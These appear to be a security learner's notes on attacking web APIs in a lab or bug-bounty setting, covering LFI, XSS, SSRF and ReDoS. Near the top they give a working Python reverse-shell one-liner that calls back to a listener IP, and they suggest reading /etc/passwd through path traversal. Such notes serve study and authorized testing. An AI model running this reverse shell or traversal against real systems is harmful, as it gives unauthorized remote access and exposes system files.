 ```python
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```
We also used this command in the shell to call back to our machine.

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.138",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

## [[Cybersecurity/Bug Bounty Hunter/Local File Inclusion\|Local File Inclusion]]

If we know that the API is at http://TGT:PORT/api

We can fuzz for endpoints: http://TGT:PORT/api/FUZZ

If we get a download endpoint, it may be vulnerable to an LFI.

Check by doing a file traverse to something known like /etc/hosts or /etc/passwd. You may need to URL encode.


## [[Cybersecurity/Bug Bounty Hunter/Cross-Site Scripting/Cross-Site Scripting (XSS)\|Cross-Site Scripting (XSS)]]

Here we notice that the download was reflecting our input. We tried putting in a JS command. It did not work until it was URL encoded. 

## [[Cybersecurity/Bug Bounty Hunter/Server Side Request Forgery\|Server Side Request Forgery]]

We can usually find SSRF in applications or APIS that fetch remote resources. We should fuzz every identified parameter, even if it does not seem tasked with fetching remote resources.

## Regular Expression Denial of Service (ReDoS)

Basically, developers may be matching input against a regex. After some amount of time the API responds. Here we try and craft denial of service by making longer patterns to match.

## [[Cybersecurity/Bug Bounty Hunter/XML External Entity Injection\|XML External Entity Injection]]



